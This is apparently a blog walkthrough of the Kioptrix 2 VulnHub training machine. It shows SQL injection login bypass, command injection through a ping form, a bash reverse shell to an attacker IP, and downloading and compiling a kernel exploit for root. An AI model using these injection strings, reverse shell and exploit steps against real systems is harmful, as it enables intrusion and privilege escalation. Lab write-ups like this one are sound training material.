 ```yaml
---
title:  "Kioptrix 2 Walkthrough"
header: "Kioptrix 2 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


This is the updated image (as the previous option fixed a few bugs) but from my understanding it roughly works the same for both. This is certainly a beginner machine and shouldn't require too much investigation or time to complete. The key is to have an understanding of how SQL injections work and basic privilege escalation enumeration practices.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

# SQL Injection  
***

There were several ports open (22,80,443,3306,111,631). I started off by navigating to website to see what was present. Immediately, I was presented with a login screen. Went through a few basic SQL injection authentication bypass one-liners and `'or 1 = 1 - -` worked.  
 
![Login Screen](/assets/images/kio2login.jpg)  
 
# Breach  
***
 
Once logged in, you are presented with an app that pings a machine on the network. I tested this by placing my attacking machine IP address in and viewed the results.  

![Ping Tool](/assets/images/kio2ping.jpg)  
 
Next I tried checking to see if I could run additional commands by appending `;whoami` which resulted in the command being executed and returning the value “apache”  

![Ping tool with username](/assets/images/kio2ping2.jpg)  

Since I had command execution on the machine, I chose a bash reverse shell from [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and modified it for my attacking IP address. The command looked like this `<IP>;bash -i >& /dev/tcp/<IP>/8080 0>&1`.  

![Ping tool with rev shell](/assets/images/kio2pingshell.jpg)  
 
Before executing in the browser, I set up a listener on my attacking box with `nc -nvlp 8080`. Once that was set up, I executed the command and was presented with a shell as the apache user.  

![Reverse Shell](/assets/images/kio2revshell.jpg)  
 
> I used python to obtain a TTY shell but it's not required. You can do this with `python -c 'import pty; pty.spawn("/bin/sh")'`  

# Privilege Escalation  
***

Checked the kernel version by `cat /proc/version` and noticed it was Linux version 2.6.9-55.EL  

![Kernel Version](/assets/images/kio2kernel.jpg)  
 
There’s a well-known exploit for privilege escalation based on this version located [here]( https://www.exploit-db.com/exploits/9542/). I downloaded the exploit to my attacking machine, started apache by executing `service apache2 start`, and placed the exploit in the /var/www/html/ folder. On the target machine, I navigated to the tmp directory by `cd /tmp` and used wget to download the file `wget http://<IP>/exploit.c`. I used gcc to compile the code with `gcc exploit.c` and ran the exploit making me root by `a.out`.  

![Root](/assets/images/kio2root.jpg)   

There are some things you can loot off this machine such as the SQL creds (/var/www/html/index.php) and a few others. It’s interesting to look at the code and figure out why the SQL injection was possible (unsanitized input).  



We can go by the assumption that the backend SQL code looks similar to

```SQL
SELECT * FROM ACCOUNTS WHERE USERNAME='admin' AND PASSWORD='password'
```
aaaa

So by placing " ' or 1=1 # " in the username field we can in turn create the below query which will allow access as an authenticated user

'''SQL
SELECT * FROM ACCOUNTS WHERE USERNAME=' or 1=1 #' AND PASSWORD='password'
'''  
